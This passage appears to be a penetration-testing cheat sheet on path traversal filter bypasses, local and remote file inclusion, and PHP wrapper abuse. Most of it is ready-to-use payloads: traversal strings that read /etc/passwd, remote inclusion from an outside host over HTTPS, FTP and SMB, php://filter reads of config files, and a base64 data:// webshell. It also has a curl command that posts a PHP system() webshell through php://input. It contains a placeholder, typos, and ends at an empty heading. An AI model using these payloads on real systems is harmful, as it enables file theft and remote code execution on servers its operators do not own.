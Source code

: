  - Overcome filtering: 
   1. use `....//` to overcome removal of `../` from parameters
   2. use `....\/` to overcome removal of `../` from parameters
   3. use `....////` to overcome removal of `../` from parameters
   4. URL encode `../` into `..%2F` or `%2E%2E%2F`


## Local File Inclusion (LFI) / Remote File Inclusion (RFI)

 - `https://pentest-experts.com/index.php?page=../../../../../etc/passwd` (local)
 - `https://pentest-experts.com/index.php?page=https://pentest-experts.com/sypps.txt` (remote)
 - `https://pentest-experts.com/index.php?page=ftp://pentest-experts.com/sypps.txt`  
   (remote via FTP in case WAF block `https://`)
 - `https://pentest-experts.com/index.php?page=\\192.168.1.2\sypps.txt`  
   (remote via SMB in case WAF block `https://` - Windows webserver only but works there even if `allow_url_include` is deactivated)

Try to include `https://127.0.0.1/somefile.html` frist do confirm RFI without traversing a firewall...

**Prepended scrings:**

In case a string get prepended (e.g. `include("lang_".$GET["lang"]);`) to the user controlled input of the loaded file, try to add `/` before the directory traversal to make the prepended string look like a directory - e.g.:

`https://pentest-experts.com/index.php?page=/../../../../../etc/passwd`

**Second order attacks:**

Test also for LFI in user supplied data, which is later read from the database - e.g.:

``WISSING GOOD EXAMPLE !!!`

**Prepended stings:**

Many web-applications prepend string the the file inclusion path (e.g. `include($GET["lang"].".php");`) - to bypass this we have in old versions of PHP (before 5.5) this options:

 - Adding 2048 x `./` to the end of the in the path to exceed the 4096 character limit (`./` is removed by the OS when accessing a file)
 - Adding a `%00` byte after the injection (PHP uses `NUL` byte terminated strings)

#### PHP filters / wrappers

 - `php://filter/read=convert.base64-encode/resource=config.php`
 - `php://filter/read=convert.base64-encode/resource=/etc/passwd`
 - `php://filter/read=convert.base64-encode/resource=../../../../../etc/passwd`
 - `expect://whoami`  
   Expect wrapper need to be installed and activated for this attack to work
 - `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjIl0pOyA%2FPg%3D%3D&c=whoami`  
   PHP webshell - run commands with: `&c=whoami`
 - `curl -s -X POST --data '<?php system("whoami"); ?>' "https://pentest-experts.com/index.php?vuln_param=php://input"`  
   Input wrapper, which receive the webshell as POST data

#### LFI to RCE

